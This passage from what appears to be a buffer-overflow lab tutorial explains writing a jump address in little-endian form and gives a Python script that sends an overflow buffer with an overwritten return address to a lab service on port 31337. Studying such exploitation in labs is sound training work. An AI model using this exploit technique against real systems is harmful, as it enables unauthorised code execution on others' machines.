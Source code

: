     - Choose an address and update your python script with the new `overflow1_step4_findJumpPoint.py` script.
    
        - 1st Address/Pointer: `080414C3` 
    
        - Set the `retn` variable to the address, written `"special backwards"` (since the system is `little endian`). 
        
            - **For example:**
            
                - If the address is `\x01\x02\x03\x04` 
                
                - in Immunity, write it as `\x04\x03\x02\x01` in your exploit.
            
            - **Reversing `little indian`:**
            
                - Normal: `080414C3`
                
                - Separate Normal: `08 04 14 C3`
                
                - Reversed pair: `C3 14 04 08`
                
                - Final Result: `"\xC3\x14\x04\x08"` 
            
            - **`retn` = `"\xC3\x14\x04\x08"`**     

- Create file: `overflow1_step4_findJumpPoint.py`

```python
import socket

ip = "192.168.1.100"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xC3\x14\x04\x08"
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

- ![image](https://user-images.githubusercontent.com/94720207/169707924-f8e313b0-f269-42c2-959f-95daa555b5cc.png)

